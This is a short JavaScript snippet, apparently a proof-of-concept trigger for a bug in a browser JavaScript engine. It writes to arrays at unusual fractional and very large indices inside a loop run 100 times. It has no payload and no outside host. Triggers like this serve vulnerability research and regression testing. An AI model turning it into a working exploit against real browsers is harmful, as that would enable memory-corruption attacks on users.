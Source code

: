 
function trigger() {
    let arr = [1.1];
    let i = 0;
    for (; i < 1000; i += 0.5) {
        arr[i + 0x7777] = 2.0;
    }

    arr[1001] = 35480.0;

    for (; i < 0x7777; i++) {
        arr[i] = 1234.3;
    }
}

for (let i = 0; i < 100; i++) {
    trigger();
}
